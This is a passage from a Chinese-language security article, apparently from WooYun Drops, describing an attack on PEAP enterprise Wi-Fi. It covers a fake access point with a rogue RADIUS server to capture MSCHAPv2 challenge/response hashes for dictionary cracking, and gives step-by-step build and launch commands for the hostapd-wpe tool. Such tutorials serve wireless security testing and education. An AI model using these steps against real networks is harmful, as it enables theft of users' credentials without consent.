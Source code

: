 3.2 PEAP Attack
---------------

那么针对PEAP的攻击手法就很明确了：

1.  Fake AP + RADIUS Server。伪造热点骗取客户端的连接建立TLS隧道，在用户与伪造的Radius服务器进行认证交互时，记录下凭证hash值(Challenge/Response）
2.  通过字典攻击跑出密码

工具可以使用FreeRadius-WPE，这是一款针对开源FreeRADIUS服务器的补丁程序。 使用方法可参考知识库上mickey写的[《破解使用radius实现802.1x认证的企业无线网络》](http://drops.wooyun.org/tools/8294)一文，这里便不再赘述。

不过 FreeRadius-WPE 项目已经在14年停止维护，OpenSecurityResearch 制作了一个替代品 hostapd-wpe，可直接为hostapd打补丁支持 PEAP/MSCHAPv2、EAP-TTLS/MSCHAPv2等攻击。

### Hostapd-WPE

项目地址： https://github.com/OpenSecurityResearch/hostapd-wpe 官方文档：

```
Ubuntu/Debian/Kali Building - 
-----------------------------------------------------------------------
    apt-get update
    apt-get install libssl-dev libnl-dev

General - 
------------------------------------------------------------------------
    git clone https://github.com/OpenSecurityResearch/hostapd-wpe

    wget http://hostap.epitest.fi/releases/hostapd-2.2.tar.gz
    tar -zxf hostapd-2.2.tar.gz
    cd hostapd-2.2
    patch -p1 < ../hostapd-wpe/hostapd-wpe.patch 
    cd hostapd

    #If you're using Kali 2.0 edit .config file and uncomment:CONFIG_LIBNL32=y
    make

    I copied the certs directory and scripts from FreeRADIUS to ease that 
    portion of things. You should just be able to:

    cd ../../hostapd-wpe/certs
    ./bootstrap

    #then finally just:

    cd ../../hostapd-2.2/hostapd
    sudo ./hostapd-wpe hostapd-wpe.conf

```

建立成功后，用手机连上此热点，输入账号密码就可观察到被记录hash值(Challenge/Response），被记录在hostapd-wpe.log

![此处输入图片的描述](http://drops.javaweb.org/uploads/images/b1947df9a55a1c295db11840bdae36bb3d3b9ba1.jpg)
